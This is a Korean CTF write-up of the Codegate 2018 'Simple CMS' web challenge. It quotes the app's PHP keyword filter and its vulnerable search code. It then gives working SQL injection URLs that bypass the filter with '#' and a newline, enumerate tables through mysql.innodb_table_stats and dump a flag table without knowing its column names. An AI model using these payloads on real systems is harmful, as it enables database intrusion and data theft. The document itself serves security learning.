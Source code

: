 # [WEB] Codegate 2018 Quals - Simple CMS

## Description

Just Source File

[Download](https://s3.ap-northeast-2.amazonaws.com/codegate2018/fbbc0672fb3688a554ddb76e95c4971b)

## Analysis

문제에서 Simple CMS설치를 할 수 있는 소스를 다운받을 수 있다.

소스를 열어보면 `simple_cms.sql`파일안에 플래그가 박혀있는 것을 확인할 수 있다.

```sql
INSERT INTO `{table_prefix}flag` (`{blind_column}1`, `{blind_column}2`, `{blind_column}3`, `{blind_column}4`) VALUES
('', '', 'flag{flagflagflagffagflaglfaglfag}', '');
```

결국 인젝션 문제인 것 같다.

기본적으로 이 문제는 `functions/waf.php` 파일에 의해 필터링이 되어진다.

```php
if(!defined('simple_cms')) exit();

$method = $_SERVER['REQUEST_METHOD'];

if($method !== 'GET' && $method !== 'POST'){
  exit('are you hacker?');
}

$filter_str = array('or', 'and', 'information', 'schema', 'procedure', 'analyse', 'order', 'by', 'group', 'into');

function escape_str($array)
{
  if(is_array($array)) {
    foreach($array as $key => $value) {
      if(is_array($value)) {
        $array[$key] = escape_str($value);
      } else {
        $array[$key] = filter($value);
      }
    }
  } 
  else {
    $array = filter($array);
  }
  return $array;
}
function filter($str){
  global $filter_str;

  foreach ($filter_str as $value) {
    if(stripos($str, $value) !== false){
      die('are you hacker?');
    }
  }
  return addslashes($str);
}

$_GET = escape_str($_GET);
$_POST = escape_str($_POST);
$_COOKIE = escape_str($_COOKIE);
$_REQUEST = escape_str($_REQUEST);	
```

SQL관련 문자열 필터링은 별거 없지만 addslashes가 추가되어 quote(')를 사용할 수 없다.

취약한 부분을 찾던 중 누가봐도 취약한 소스를 발견하였다.

`classes/Board.class.php:24` 

```php
function action_search(){
  $column = Context::get('col');
  $search = Context::get('search');
  $type = strtolower(Context::get('type'));
  $operator = 'or';

  if($type === '1'){
  	$operator = 'or';
  }
  else if($type === '2'){
  	$operator = 'and';
  }
  if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
  	$column = 'title';
  }
  $query = get_search_query($column, $search, $operator);
  $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
  include(CMS_SKIN_PATH . 'board.php');
}
```

`functions/lib.php:16`

```Php
function get_search_query($column, $search, $operator){
	$column = explode('|', $column);
	$result = '';
	for($i=0; $i<count($column); $i++){
		if(trim($column[$i]) === ''){
			continue;				
		}
		$result .= " LOWER({$column[$i]}) like '%{$search}%' {$operator}";
	}
	$result = trim(substr($result, 0 , strrpos($result, $operator)));
	return $result;
}
```

col 인자로 받는 값은 Quote안에 들어가지 않고 괄호에 들어가는데 col의 경우 필터링이 매우 빡세다.

하지만 우리는 #을 쓸 수가 있다.

이를 이용하여 인젝션을 할 수 있었다.

## Exploit

### SQL Injection

col에 #을 넣고 search에 개행문자(%0a)를 삽입하여 보내게 되면 다음과 같이 쿼리가 만들 수 있다.

```
​~~~~ LOWER(0#) like '%
) && 1 #%'
```

이제 union을 이용해 테이블을 뽑아보자.

information_schema를 못쓰니 mysql의 innodb_table_stats를 사용하자.

```
http://13.125.3.183/?act=board&mid=search&col=%23|&type=1&search=%0a0)%20union%20select%201,database_name,table_name,table_name,5%20from%20mysql.innodb_table_stats%20%23

idx	title	id
1	mysql	gtid_executed
1	simple_cms	41786c497656426a6149_board
1	simple_cms	41786c497656426a6149_flag
1	simple_cms	41786c497656426a6149_users
1	sys	sys_config
```

하지만 컬럼은 알아내는 것이 불가는하기에 컬럼을 모르는 상태에서 데이터를 뽑아야한다.

최종적으로 완선된 쿼리는 다음과 같다.

```
http://13.125.3.183/?act=board&mid=search&col=%23|&type=1&search=%0a0)%20union%20select%201,2,1,a,1%20from%20(select%201,2,3%20a,4%20union%20select%20*%20from%2041786c497656426a6149_flag%20limit%201,1)a%23

idx	title	id
1	2	flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}
```



**flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}**